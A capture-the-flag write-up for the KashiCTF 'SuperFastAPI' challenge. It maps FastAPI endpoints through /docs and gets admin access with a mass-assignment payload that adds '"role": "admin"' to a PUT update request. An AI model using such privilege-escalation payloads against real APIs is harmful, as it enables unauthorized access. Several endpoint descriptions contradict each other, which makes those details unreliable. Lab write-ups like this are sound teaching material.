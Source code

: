 # SuperFastAPI

Total Solves - 189

Final Points - 100

## Description
Made my very first API! However I have to still integrate it with a frontend so can't do much at this point lol.

## Writeup

```shell
$ curl http://kashictf.iitbhucybersec.in:57490
{"message":"Welcome to my SuperFastAPI. No frontend tho - visit sometime later :)"}
```

The initial access doesn't give any information. However, the challenge name Super**FastAPI**, should make one think that maybe FastAPI is being used. The header `server: uvicorn` would furthur strengthen this belief.

It is popular knowledge that FastAPI serves three special endpoints:
- `/docs`
- `/redoc`
- `/openapi.json`

These endpoints explain the API and have interactive interface to test API. An attacker could use these to undertand the API, if a developer forgets to hide these before production release.

On visiting `/docs`, one will understand their are 5 API endpoints:
- `GET /`
- `GET /get/{username}`
- `POST /create/{username}`
- `PUT /update/{username}`
- `GET /flag/{username}`

The user has to interact with each to get to this conclusion:

### `GET /`

Serves the following message:
```json
{
  "message": "Welcome to my SuperFastAPI. No frontend tho - visit sometime later :)"
}
```
### `GET /get/{username}`

If no user with `username` exists, returns an error:
```json
{
  "error": "User not found"
}
```

If the user with `username` exists, returns the user details:
```json
{
  "message": {
    "fname": "user fname",
    "lname": "user lname",
    "email": "user email",
    "gender": "user gender",
    "role": "guest"
  }
}
```
### `POST /create/{username}`

Takes in following body parameters:
```json
{
  "fname": "user fname",
  "lname": "user lname",
  "email": "user email",
  "gender": "user gender"
}
```

If user with `username` exists, returns an error:
```json
{
  "error": "User already exists"
}
```

If no user with `username` exists, returns the success message:
```json
{
  "message": "User created!"
}
```

### `PUT /update/{username}`

Takes in following body parameters:
```json
{
  "fname": "user fname",
  "lname": "user lname",
  "email": "user email",
  "gender": "user gender"
}
```

If user with `username` doesn't exist, returns an error:
```json
{
  "error": "User not found"
}
```

If no user with `username` exists, returns the success message:
```json
{
  "message": "User created!"
}
```

### `GET /flag/{username}`

If user with `username` exists, returns an error:
```json
{
    "error": "Only for admin"
}
```

If user with `username` doesn't exist, returns an error:
```json
{
  "error": "User not found"
}
```

Now if you look closely, the `GET /get/{username}` endpoint reveals an extra parameter, `role`.
Maybe the developer doesn't actualy check the keys sent in the data, and directly assigns that to username? If we send a body with `"role": "admin"`, we can access `/flag/{username}`.

The following body is sent to `PUT /update/{username}`:
```json
{
  "fname": "John",
  "lname": "Doe",
  "email": "john.doe@example.com",
  "gender": "male",
  "role": "admin"
}
```

The endpoint `/get/{username}` returns the flag:
```json
{
  "message": "KashiCTF{m455_4551gnm3n7_ftw}"
}
```

## Flag
`KashiCTF{m455_4551gnm3n7_ftw_[a-zA-Z0-9]{9}}`